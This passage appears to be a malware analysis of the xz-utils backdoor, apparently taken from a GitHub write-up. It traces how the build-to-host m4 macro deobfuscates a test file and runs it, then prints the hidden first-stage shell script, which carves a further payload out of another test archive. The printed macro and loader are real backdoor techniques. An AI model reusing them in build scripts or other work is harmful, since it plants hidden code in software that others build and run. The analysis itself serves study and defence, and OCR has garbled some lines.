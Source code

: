 - `gl_am_configmake='./tests/files/bad-3-corrupt_lzma2.xz'`
- `HAVE_PKG_CONFIGMAKE=1`

```
gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"`
```

- `gl_[$1]_prefix='xz'`

```
gl_path_map='tr "\t \-_" " \t_\-"'
```

- `gl_path_map='tr "\t \-_" " \t_\-"'`

```
if test "x$gl_am_configmake" != "x"; then
  gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'else
  gl_[$1]_config=''fi
```

- `gl_[$1]_config='sed \"r\n\" ./tests/files/bad-3-corrupt_lzma2.xz | eval 'tr "\t \-_" " \t_\-"' | xz -d 2>/dev/null'`
- `sed r\n` == `cat`
- `gl_[$1]_config=cat ./tests/files/bad-3-corrupt_lzma2.xz | tr "\t \-_" " \t_\-" | xz -d`
- Deofuscate `tests/files/bad-3-corrupt_lzma2.xz`

```
AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null], [gl_config_gt="eval \$gl_[$1]_config"])
```

- Execute the deofuscate script

**2. `bad-3-corrupt_lzma2.xz`**

[test/files/bad-3-corrupt_lzma2.xz(Deobfuscated)](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/bad-3-corrupt_lzma2.sh)

```
####Hello####
#�U��$�
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
eval `grep ^srcdir= config.status`if test -f ../../config.status;then
    eval `grep ^srcdir= ../../config.status`
    srcdir="../../$srcdir"fi
export i="((head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +2048 &&
    (head -c +1024 >/dev/null) && head -c +939)";
(xz -dc $srcdir/tests/files/good-large_compressed.lzma\
| eval $i\
```